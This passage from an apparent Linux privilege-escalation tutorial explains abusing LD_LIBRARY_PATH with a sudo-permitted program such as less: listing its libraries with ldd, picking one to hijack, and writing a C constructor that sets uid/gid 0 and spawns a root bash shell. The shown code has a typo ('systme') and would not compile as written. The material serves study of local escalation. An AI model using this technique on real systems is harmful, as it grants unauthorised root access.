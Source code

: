 - From the above output, we have successfully escalated our privileges to root. 
- This method comes in handy when the program has no escape sequence.


### LD_LIBRARY_PATH

LD_LIBRARY_PATH is an environmental variable in Linux that specifies a list of directories where the system should look for shared libraries when a program is run. The shared libraries are typically files that contain code used by multiple programs on the system. By default, the system searches for shared libraries in a set of standard directories, but users can use the LD_LIBRARY_PATH variable to add additional directories to the search path.

To list shared libraries used by a program, use the command `ldd` with the path of the program

#### Step 1. 
- List all programs that can be run via sudo (`sudo -l`)
![-sudo-l](Pasted_image_20230515142927.png)

#### Sep 2. 
- Choose a program that you want to use. Example on my side I will use `less`
- List libraries of the command you chose. e.g `ldd /usr/bin/less`
![ldd](Pasted_image_20230515143308.png)
- The results above show the libraries for `less `program. 

#### Step 3. 
- Choose the library to hijack from the list libraries in the above step. You can choose any library. Example let's choose `libdl.so.2`

#### Step 4. 
- Create a function using c programming language that will hijack our program to spawn a shell.
```

#include <stdio.h>
#include <stdlib.h>

static void shell() __attribute__((constructor));

void shell(){
	unsetenv("LD_LIBRARY_PATH");
	setgid(0);
	setuid(0);
	systme("/bin/bash");
}
```